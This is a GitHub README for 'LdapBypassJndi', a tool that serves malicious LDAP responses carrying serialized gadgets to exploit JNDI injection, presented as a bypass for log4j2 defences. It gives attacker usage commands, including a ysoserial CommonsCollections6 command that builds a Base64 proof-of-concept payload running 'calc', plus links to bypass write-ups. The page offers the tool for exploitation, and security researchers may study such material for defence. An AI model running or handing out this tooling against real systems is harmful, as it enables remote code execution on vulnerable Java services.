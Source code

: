# LdapBypassJndi

[中文版本(Chinese version)](README.zh-cn.md)

>The function of the tool is to inject JNDI through LDAP

Principle: use LDAP to return serialized data and trigger local gadget

Use:  **Java - jar ldapbypassjndi.jar port poc.ser**

Port: is the listening port, which is equivalent to the listening port of the server

Poc.ser: serializes Base64 encoded gadgets

```
java -jar ysoserial.jar CommonsCollections6 "calc" | base64 >win-cc6-calc-poc.ser
```

![gif](img/poc.gif)

In short, it is equivalent to a deserialization entry. To use it, you need to have a local one.

**Update 2021/12/21**

LDAP service for bypass log4j2

https://github.com/Firebasky/Java/blob/main/java%E6%97%A5%E5%B8%B8/%E9%97%B2%E8%B0%88log4j2.md

>Reference resources:
>
>https://kingx.me/Restrictions-and-Bypass-of-JNDI-Manipulations-RCE.html
>
>https://www.mi1k7ea.com/2020/09/07/%E6%B5%85%E6%9E%90%E9%AB%98%E4%BD%8E%E7%89%88JDK%E4%B8%8B%E7%9A%84JNDI%E6%B3%A8%E5%85%A5%E5%8F%8A%E7%BB%95%E8%BF%87/

